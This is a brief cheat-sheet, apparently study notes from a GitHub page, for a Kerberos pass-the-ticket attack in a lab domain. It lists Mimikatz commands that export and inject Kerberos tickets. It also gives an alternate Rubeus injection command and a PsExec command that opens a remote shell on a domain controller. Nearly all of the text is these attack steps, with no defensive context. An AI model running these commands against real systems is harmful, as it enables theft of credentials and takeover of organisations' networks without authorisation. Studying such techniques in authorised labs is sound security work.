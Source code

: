 ### Tool: Mimikatz


#### 1) privilege::debug

#### 2) sekurlsa::tickets /export

#### 3) kerberos::ptt TICKET.kirbi

#### klist

### TIP: TGTs = Admin Credentials.

#### Access to any service the user is allowed to access.

### TGSs=Low-privileged account

## Alternate Method: Rubeus

 - .\Rubeus.exe ptt /ticket:[0;28419fe]-2-1-40e00000-trex@krbtgt-JURASSIC.PARK.kirbi

 - klist

 - .\PsExec.exe -accepteula \\lab-wdc01.jurassic.park cmd
